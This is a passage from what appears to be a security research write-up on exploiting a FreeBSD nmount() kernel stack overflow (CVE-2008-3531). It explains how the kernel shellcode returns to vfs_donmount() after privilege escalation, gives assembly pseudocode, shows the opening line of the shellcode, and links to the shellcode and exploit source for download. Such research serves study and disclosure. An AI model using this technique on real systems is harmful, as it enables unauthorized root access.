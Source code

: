 In order to successfully return to userland from the kernel shellcode I will use another approach. Remember that the execution path I decided to take is `nmount() -> vfs_donmount() -> msdosfs_mount() -> vfs_filteropt()`. After the shellcode has performed privilege escalation it could return to where `vfs_filteropt()` was supposed to return, that is in `msdosfs_mount()`. However that is not possible since `msdosfs_mount()`&#8216;s saved registers have been corrupted when `vfs_filteropt()`&#8216;s stack frame was smashed by the overflow. The values of these saved registers cannot be restored, consequently there is no safe way to return to `msdosfs_mount()` after privilege escalation. The solution I have implemented in the exploit bypasses `msdosfs_mount()` completely and returns to the pre-previous from `vfs_filteropt()` function, namely `vfs_donmount()`. The saved registers&#8217; values of `vfs_donmount()` are uncorrupted in `msdosfs_mount()`&#8216;s stack frame. To make this more clear, consider the following pseudocode that is based on the relevant deadlisting part:

<div class="wp_syntax">
  <table>
    <tr>
      <td class="code">
        <pre class="c" style="font-family:monospace;"><span style="color: #808080; font-style: italic;">/* this function's saved registers' values are uncorrupted */</span>
vfs_donmount<span style="color: #009900;">&#40;</span><span style="color: #009900;">&#41;</span>
<span style="color: #009900;">&#123;</span>
    ...
    <span style="color: #202020;">msdosfs_mount</span><span style="color: #009900;">&#40;</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
    ...
<span style="color: #009900;">&#125;</span>
&nbsp;
msdosfs_mount<span style="color: #009900;">&#40;</span><span style="color: #009900;">&#41;</span>
<span style="color: #009900;">&#123;</span>
    ...
    <span style="color: #202020;">vfs_filteropt</span><span style="color: #009900;">&#40;</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
    ...
    <span style="color: #808080; font-style: italic;">/* stack cleanup, restore saved registers */</span>
    addl    $<span style="color: #208080;">0xe8</span><span style="color: #339933;">,</span> <span style="color: #339933;">%</span>esp
    popl    <span style="color: #339933;">%</span>ebx
    popl    <span style="color: #339933;">%</span>esi
    popl    <span style="color: #339933;">%</span>edi
    popl    <span style="color: #339933;">%</span>ebp
    ret
<span style="color: #009900;">&#125;</span></pre>
      </td>
    </tr>
  </table>
</div>

Taking into consideration the above analysis, the complete kernel shellcode for the developed exploit is the following (you can download it from [here][9]):

<div class="wp_syntax">
  <table>
    <tr>
      <td class="code">
        <pre class="asm" style="font-family:monospace;"><span style="color: #339933;">.</span><span style="color: #0000ff; font-weight: bold;">global</span> _start
_start<span style="color: #339933;">:</span>
&nbsp;
movl    <span style="color: #339933;">%</span><span style="color: #46aa03; font-weight: bold;">fs</span><span style="color: #339933;">:</span><span style="color: #ff0000;"></span><span style="color: #339933;">,</span> <span style="color: #339933;">%</span><span style="color: #46aa03; font-weight: bold;">eax</span>         # get curthread

 [1]: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-3531
 [2]: http://security.freebsd.org/advisories/FreeBSD-SA-08:08.nmount.asc
 [3]: http://www.freebsd.org/cgi/man.cgi?query=nmount&#038;apropos=0&#038;sektion=2&#038;manpath=FreeBSD+7.0-RELEASE&#038;format=html
 [4]: http://www.freebsd.org/cgi/man.cgi?query=sysctl&#038;sektion=8&#038;apropos=0&#038;manpath=FreeBSD+7.0-RELEASE
 [5]: http://www.freebsd.org/cgi/man.cgi?query=mmap&#038;apropos=0&#038;sektion=2&#038;manpath=FreeBSD+7.0-RELEASE&#038;format=html
 [6]: http://www.freebsd.org/cgi/man.cgi?query=sysctl&#038;sektion=3&#038;apropos=0&#038;manpath=FreeBSD+7.0-RELEASE
 [7]: http://census-labs.com/research/#kernexp
 [8]: http://www.blackhat.com/presentations/bh-usa-03/bh-us-03-cesare.pdf
 [9]: http://census-labs.com/media/cve-2008-3531-kernelcode.s
 [10]: http://census-labs.com/media/cve-2008-3531.c